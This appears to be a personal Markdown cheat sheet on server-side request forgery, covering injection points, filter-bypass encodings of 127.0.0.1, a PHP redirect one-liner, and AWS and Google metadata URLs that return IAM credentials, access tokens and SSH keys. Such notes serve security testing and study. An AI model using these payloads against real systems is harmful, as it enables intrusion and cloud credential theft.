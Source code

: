 # SSRF

## WHERE

### File Upload	(SVGs, JPGs, XMLs and JSONs)
	
#### SVGs : 

- Proxies
- Admin Configuration
- Webhooks
- URLs embedded in files that are processed by the application
- Hidden API endpoints that accept URLs as input
- HTML tag injections

## BYPASS

### Whitelist
	
* Open redirect
* @ , # , / , . 
* Encoding ?

### Blacklist
	
* Encoding
	
		. Hex : 127.0.0.1 translates to 0x7f.0x0.0x0.0x1
		. Octal : 127.0.0.1 translates to 0177.0.0.01
		. DWord : 127.0.0.1 translates to 2130706433
		. URL Encoding : localhost translates to %6c%6f%63%61%6c%68%6f%73%74
		. Mixed : 127.0.0.1 translates to 0177.0.0.0x1

* Ip V6
* DNS 
* Redirect : <?php header(“location: http://127.0.0.1"); ?> / TinyUrl 

## EXPLOIT

### Collect instance metadata 
	
#### AWS

	* http://169.254.169.254/latest/meta-data/ returns the list of available metadata that you can query.

	* http://169.254.169.254/latest/meta-data/local-hostname/ returns the internal hostname used by the host.

	* http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME returns the security credentials of that role.

	* http://169.254.169.254/latest/dynamic/instance-identity/document reveals the private IP address of the current instance.

	* http://169.254.169.254/latest/user-data/ returns user data on the current instance. 

#### GOOGLE

	* http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token returns the access token of the default account on the instance.

	* http://metadata.google.internal/computeMetadata/v1beta1/project/attributes/ssh-key returns public SSH keys that can connect to other instances in this project.

### fingerprinting : 
	
* internally : port scanning, other services on internal ip ? 

		. Internal adress : https://en.wikipedia.org/wiki/Reserved_IP_addresses
		. 127.0.0.0/8
		. 192.168.0.0/16
		. 10.0.0.0/8

* externally : user agent in dns/http request

### Bypass access controls

### RCE ???

## LINKS

	- SSRF Bible : https://docs.google.com/document/d/1v1TkWZtrhzRLy0bYXBcdLUedXGb9njTNIJXa3u9akHM/edit#heading=h.kwcnj7jh5zyy

	- Vickie Li : https://medium.com/@vickieli/sitemap-xml-6ecc3b14b4f

	- Internal adress : https://en.wikipedia.org/wiki/Reserved_IP_addresses

	- Common ports : https://packetlife.net/media/library/23/common-ports.pdf
	
	- AWS EC2 Docs: http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html (includes a comprehensive Instance Metadata Categories table)
	
	- Toutes les references possibles !!! : https://medium.com/@pravinponnusamy/ssrf-payloads-f09b2a86a8b4
